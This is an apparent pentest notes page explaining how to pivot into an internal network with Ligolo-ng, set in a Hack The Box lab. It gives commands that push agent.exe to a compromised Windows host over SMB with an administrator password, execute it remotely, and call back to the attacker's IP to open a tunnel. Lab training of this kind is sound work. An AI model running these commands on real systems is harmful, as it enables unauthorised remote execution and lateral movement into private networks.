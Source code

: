```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Ligolo-ng

## Commands

### Basic Commands

{% tabs %}
{% tab title="1. Server tun if" %}
```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```
{% endtab %}

{% tab title="2a. Proxy (no internet)" %}
```bash
proxy -selfcert
```
{% endtab %}

{% tab title="2b. Proxy (internet)" %}
```bash
proxy -autocert
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="3. Agent" %}
```bash
./agent -connect 10.129.204.146:11601
```
{% endtab %}

{% tab title="4. Add route" %}
```
sudo ip route add 172.16.10.0/24 dev ligolo
```
{% endtab %}

{% tab title="5. Session" %}
```bash
ligolo-ng » session
```
{% endtab %}

{% tab title="6. Tunnel" %}
```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```
{% endtab %}
{% endtabs %}

### Agent Transfer & Execution

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.
{% endhint %}

We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><img src="../../../.gitbook/assets/ligolo_ipconfig.png" alt=""><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ligolo_target_network_fail.png" alt=""><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><img src="../../../.gitbook/assets/ligolo_tun_if.png" alt=""><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate needs to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><img src="../../../.gitbook/assets/ligogo_proxy.png" alt=""><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).

{% hint style="success" %}
**Admin access** on the target host **is** **NOT required**!
{% endhint %}

<figure><img src="../../../.gitbook/assets/ligolo_ng_agent_transfer_execute.png" alt=""><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><img src="../../../.gitbook/assets/ligolo_proxy_received.png" alt=""><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><img src="../../../.gitbook/assets/liogo_add_route.png" alt=""><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><img src="../../../.gitbook/assets/ligolo_start_tunnel.png" alt=""><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><img src="../../../.gitbook/assets/ligolo_live_host_disc_arp_port_scan.png" alt=""><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
